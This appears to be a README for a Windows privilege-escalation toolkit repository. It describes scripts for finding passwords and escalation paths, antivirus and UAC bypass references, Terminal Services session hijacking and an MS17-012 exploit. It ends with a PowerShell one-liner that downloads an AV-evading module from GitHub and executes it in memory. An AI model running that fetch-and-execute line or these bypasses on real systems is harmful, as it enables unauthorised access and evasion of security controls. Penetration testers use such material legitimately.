 # WinEscalation-

Scan.ps1:
Powershell script used to determine what methods can be used to escalate privileges and find passwords (admin and non-admin privs).


AVbypass.txt:
List of URLs discussing different methods of bypassing AV.

TScommands.txt:
Commands on how to hijack a TS session on a box (must have admin rights).

UACbypass.txt:
URLs discussing different methods of bypassing UAC.


MS17-012/CVE-2017-0100:
Start-ProcessInSession.ps1 & MS17-012.cs - non-priveleged session hijack



# Author: Scott Sutherland 2013, NetSPI
# Version: Get-SPN version 1.1
# Requirements: Powershell v.3
# Comments: The technique used to query LDAP was based on the "Get-AuditDSDisabledUserAcount" 
# function found in Carols Perez's PoshSec-Mod project.#
# Modded to bypass AV sig detection.

Get-SPM.psm1: 
IEX (New-Object System.Net.WebClient).DownloadString("https://raw.githubusercontent.com/pand0rausa/WinEscalation-/master/Get-SPM.psm1")

